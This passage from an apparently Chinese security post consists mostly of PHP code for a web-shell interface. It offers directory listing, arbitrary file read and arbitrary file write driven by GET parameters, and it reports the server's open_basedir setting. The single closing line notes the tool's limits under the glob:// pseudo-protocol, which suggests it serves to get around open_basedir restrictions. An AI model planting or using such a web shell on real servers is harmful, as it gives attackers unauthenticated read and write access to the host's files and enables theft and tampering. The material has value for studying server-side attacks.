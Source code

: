 ```php
Description: <strong><?php echo $fileReader->getDescription(); ?></strong><input type="hidden" name="action" value="rf">
</fieldset>
</form>
</pre>
<pre id="wf">
open_basedir: <span style="color: red"><?php echo ini_get('open_basedir') ? ini_get('open_basedir') : 'Off'; ?></span>
<form style="display:inline-block" action="">
<fieldset><legend>Write File :</legend>File Path   : <input name="file_path" size="100" value="<?php echo $file_path; ?>"><input type="submit" value="Write">
File Content: <textarea cols="70" name="content"></textarea>
Description : <strong><?php echo $fileWriter->getDescription(); ?></strong><input type="hidden" name="action" value="wf">
</fieldset>
</form>
</pre>
</div>
<a href="#dl">Directory Listing</a> | <a href="#rf">Read File</a> | <a href="#wf">Write File</a>
<hr>
<pre>
<?php if ($action === 'rf'): ?>
<plaintext>
<?php
$fileReader->setFilePath($file_path);
echo $fileReader->read();
?>
<?php elseif ($action === 'wf'): ?>
<?php
if (isset($_GET['content'])) {
	$fileWriter->setFilePath($file_path);
	$fileWriter->write($_GET['content']);
echo 'The file should be written.';
} else {
echo 'Something goes wrong.';
}
?>
<?php else: ?>
<ol>
<?php
$directorLister->setCurrentPath($cwd);
$file_list = $directorLister->getFileList();
$parent_path = dirname($cwd);

echo "<li><a href='?cwd={$parent_path}{$append}#dl'>Parent</a></li>";
if (count($file_list) > 0) {
foreach ($file_list as $file) {
echo "<li><a href='?cwd={$cwd}{$file}{$append}#dl'>{$file}</a></li>";
	}
} else {
echo 'No files found. The path is probably not a directory.';
}
?>
</ol>
<?php endif;?>
```

试了下，简单的界面化了，但局限性非常明显，就是glob://伪协议的局限性：